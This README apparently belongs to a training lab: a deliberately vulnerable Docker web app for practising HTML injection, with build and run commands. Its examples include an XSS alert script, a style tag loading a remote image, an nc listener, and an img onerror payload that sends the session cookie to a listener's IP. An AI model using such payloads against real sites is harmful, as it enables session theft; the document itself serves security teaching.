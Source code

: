 # HTML Injection   

A simple docker container that has a web app that is susceptible to HTML injection.

## Build
```
docker build -t html-injection .
```

## Usage
```
docker run -d -p 5000:5000 --name html-injection -t html-injection
```

## Example
Click the "Enter your name button and insert a XSS test alert script.

```
<script>alert("XSS Test")</script>
```

or you can use it to import pictures using a script.

```
<style> body {background-image: url('https://uwe-cyber.github.io/images/uwecyber.png');}</style>
```
or export the session cookie to a remote server.

Have a nc listener running on port 5001 on your local machine.

```
nc -lvp 5001
```

Then use the following script to export the cookie to your local machine. Note the `removeAttribute` is used to prevent the script from running more than once.

```
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```
